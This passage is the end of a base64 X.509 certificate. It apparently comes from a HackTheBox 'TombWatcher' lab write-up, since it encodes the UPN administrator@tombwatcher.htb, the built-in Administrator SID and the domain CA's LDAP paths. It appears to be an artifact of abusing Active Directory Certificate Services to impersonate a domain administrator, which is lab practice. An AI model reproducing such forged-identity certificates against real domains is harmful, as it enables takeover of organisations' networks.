QTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMTM5MjQ5MTAxMC0xMzU4NjM4
NzIxLTIxMjY5ODI1ODctNTAwMIGJBgNVHREEgYEwf6AtBgorBgEEAYI3FAIDoB8M
HWFkbWluaXN0cmF0b3JAdG9tYndhdGNoZXIuaHRihk50YWc6bWljcm9zb2Z0LmNv
bSwyMDIyLTA5LTE0OnNpZDpTLTEtNS0yMS0xMzkyNDkxMDEwLTEzNTg2Mzg3MjEt
MjEyNjk4MjU4Ny01MDAwHQYDVR0OBBYEFG03Y5rv5Z45VvsPBoQMwkpFJWksMB8G
A1UdIwQYMBaAFCrN5HoYF07vh90LHVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGg
gb6ggbuGgbhsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1D
RFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29u
ZmlndXJhdGlvbixEQz10b21id2F0Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZv
Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
MIHGBggrBgEFBQcBAQSBuTCBtjCBswYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRv
bWJ3YXRjaGVyLUNBLTEsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9
aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9u
QXV0aG9yaXR5MCEGCSsGAQQBgjcUAgQUHhIAVwBlAGIAUwBlAHIAdgBlAHIwDgYD
VR0PAQH/BAQDAgWgMBMGA1UdJQQMMAoGCCsGAQUFBwMBMA0GCSqGSIb3DQEBBQUA
A4IBAQDLLrelB0tHTXyovfDfyKT8/nOkVx2XxBwGSJD9PulKnH4Lv9C/YBRwjWCu
hoLL09i6I5lCKyncR/t89mxLyPaKDMGgb3CTBE552Uk/TxjNLf4Z5d97+kV97RKy
1F7TzkL32+72vzc1lOkC6ATP+ip/yDRUDINyXUFoXVewKaHivYbwjM1vGe74W3jE
+VDfPp29TbcOcT1SNfufXiup5YhdpkemKlL2/yg5SDfnicVNaVoirHDy1x1rN0Aw
noPA+2Hr1lgeWB4AbqOqRraa1QNInwfW+rCU8UG9c5CPT46Uju+XJWb8WOTnTfsq
YpZKfH9kX3ZecmlGDXQ9C8KMLYq9
-----END CERTIFICATE-----
```

